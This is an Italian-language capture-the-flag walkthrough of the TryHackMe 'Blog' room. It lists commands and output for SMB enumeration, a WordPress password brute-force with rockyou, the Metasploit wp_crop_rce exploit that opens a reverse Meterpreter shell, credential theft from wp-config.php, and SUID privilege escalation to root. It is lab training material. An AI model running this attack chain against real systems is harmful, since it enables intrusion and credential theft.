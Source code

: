 
#tryhackmelabs #laboratorio 

https://tryhackme.com/r/room/blog

```
nano /etc/hosts                                                    
```

```
map -sV --open -p- 10.10.0.138
```

```
nmap -sV -O -p22,80,139,445 10.10.0.138
```

smb enumerare con nmap le condivisioni

```
nmap -p445 --script smb-enum-shares 10.10.0.138
```

```
nmap --script smb-os-discovery.nse -p 445 10.10.0.138
```
oppure
```
smbmap -H 10.10.0.138
```
oppure
```
use scanner/smb/smb_enumshares
```
otteniamo BillySMB 
```
smbget -R smb://10.10.0.138/anonymous

```
	non va

```
smbget -R smb://10.10.0.138/BillySMB
```
	scarica file direttamente senza password
```
smbclient //10.10.0.138/BillySMB
```
	vede cartella file condivisa
```
ls
```

```
get Alice-White-Rabbit.jpg 
```

```
get tswift.mp4 
```
	scarichiamo i file
```
get check-this.png 
```

```
smb: \> exit
```

```
steghide extract -sf Alice-White-Rabbit.jpg
```
	decrittiamo

```
cat rabbit_hole.txt
```

You've found yourself in a rabbit hole, friend.
niente di buono!

```
wpscan --url http://10.10.161.66 -e vp,u
```

[+] bjoel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.161.66/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] kwheel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.161.66/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```
/wp-json/wp/v2/users

```


```
nano users.txt
```

```
bjoel
kwheel
```

```
wpscan -U users.txt -P /usr/share/wordlists/rockyou.txt --url http://blog.thm
```

```
[SUCCESS] - kwheel / cutiepie1     
 Username: kwheel, Password: cutiepie1
```

```
search wordpress 5.0
```

```
use multi/http/wp_crop_rce
```

```
set RHOSTS 10.10.7.57
```

```
set USERNAME kwheel
```

```
set PASSWORD cutiepie1
```

```
set LHOST 10.21.9.220
```

```
meterpreter > shell
Process 1704 created.
Channel 1 created.
/bin/bash -i
bash: cannot set terminal process group (929): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blog:/var/www/wordpress$ 
```

```
www-data@blog:/home/bjoel$ ls
ls
Billy_Joel_Termination_May20-2020.pdf
user.txt
www-data@blog:/home/bjoel$ cat user.txt
cat user.txt
You won't find what you're looking for here.

TRY HARDER
www-data@blog:/home/bjoel$ 
```

```
cat /var/www/wordpress/wp-config.php
```
	nel file di configurazione del db troviamo le password

```
/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');
```

```
mysql -h 10.10.7.57 -u wordpressuser -p
```


```
meterpreter > shell
Process 1931 created.
Channel 1 created.
/bin/bash -i
bash: cannot set terminal process group (929): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blog:~/wordpress$
```

```
find / -user root -perm /4000 -print 2>/dev/null
```

```
/usr/sbin/checker
```

```
www-data@blog:~/wordpress$ /usr/sbin/checker
/usr/sbin/checker
Not an Admin
www-data@blog:~/wordpress$ 
```

```
file /usr/sbin/checker
```

```
ile /usr/sbin/checker
/usr/sbin/checker: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6cdb17533a6e02b838336bfe9791b5d57e1e2eea, not stripped

```
L'eseguibile è un ELF a 64 bit:


Eseguendolo con ltrace si scopre che l'eseguibile sta controllando una variabile di ambiente (admin) per determinare se siamo amministratori:
```
ltrace /usr/sbin/checker
```

```
www-data@blog:~/wordpress$ ltrace /usr/sbin/checker
ltrace /usr/sbin/checker
getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
+++ exited (status 0) +++
www-data@blog:~/wordpress$ 

```

Creiamo una variabile di ambiente di amministrazione e impostiamola su 1:

```
export admin=1
```

```
/usr/sbin/checker
```

```
cd /root

```

```
whoami
```

```
ls
root.txt
cat root.txt
9a0b2b618bef9bfa7ac28c1353d9f318
```

```
find / -type f -name user.txt 2>/dev/null
```

/media/usb/user.txt

```
cat /media/usb/user.txt
c842xxxxxxxxxxxxxxxxxxxxxxxx
```


